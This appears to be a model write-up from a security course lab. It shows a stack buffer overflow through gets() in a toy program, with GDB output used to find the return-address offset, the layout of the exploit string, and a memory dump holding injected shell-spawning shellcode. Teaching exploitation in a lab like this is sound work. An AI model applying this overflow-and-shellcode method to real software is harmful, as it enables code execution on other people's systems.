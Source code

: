 # Question 2: Spica Write-up
## Main Idea
#### (A description of the vulnerability)

The code is vulnerable because ```gets(buf)``` does not check the length of the input from the user, which lets an attacker write past the end of the buffer. We insert shellcode above the saved return address on the stack (rip) and overwrite the rip with the address of shellcode.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)

We first determined the address of the buffer (0xbffffc18) and the address of the rip of the orbit function (0xbffffc2c). This was done by invoking GDB and setting a breakpoint at line 5.

```
(gdb) x/16x buf
0xbffffc18:  0x41414141  0xb7e5f200  0xb7fed270  0x00000000
0xbffffc28:  0xbffffc18  0x0804842a  0x08048440  0x00000000
0xbffffc38:  0x00000000  0xb7e454d3  0x00000001  0xbffffcb4
0xbffffc48:  0xbffffcbc  0xb7fdc858  0x00000000  0xbffffc1c

(gdb) i f
Stack frame at 0xbffffc10:
 eip = 0x804841d in orbit (orbit.c:8); saved eip 0x804842a
 called by frame at 0xbffffc40
 source language c.
 Arglist at 0xbffffc28, args:
 Locals at 0xbffffc28, Previous frame's sp is 0xbffffc30
 Saved registers:
  ebp at 0xbffffc28, eip at 0xbffffc2c
```

By doing so, we learned that the location of the return address from this function was 20 bytes away from the start of the buffer (0xbffffc2c - 0xbffffc18 = 20).

## Exploit Structure
#### (A description of your exploit structure)

Here is the stack diagram (You don’t need a stack diagram in your writeup).

```
rip (0xbffffc2c)
sfp
compiler padding
buf (0xbffffc18)
```

The exploit has three parts:

1. Write 20 dummy characters to overwrite buf, the compiler padding, and the sfp.

2. Overwrite the rip with the address of shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with 0xbffffc30 (0xbffffc2c + 4).

3. Finally, insert the shellcode directly after the rip.

This causes the orbit function to start executing the shellcode at address 0xbffffc30 when it returns.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)

When we ran GDB after inputting the malicious exploit string, we got the following output:

```
(gdb) x/16x buf
0xbffffc18:  0x61616161  0x61616161  0x61616161  0x61616161
0xbffffc28:  0x61616161  0xbffffc30  0xcd58326a 0x89c38980
0xbffffc38:  0x58476ac1  0xc03180cd  0x2f2f6850  0x2f686873
0xbffffc48:  0x546e6962  0x8953505b  0xb0d231e1  0x0080cd0b
```

After 20 bytes of garbage (blue), the rip is overwritten with 0xbffffc30 (red), which points to the shellcode directly after the rip (green).

Note: you don’t need to color-code your gdb output in your writeup.

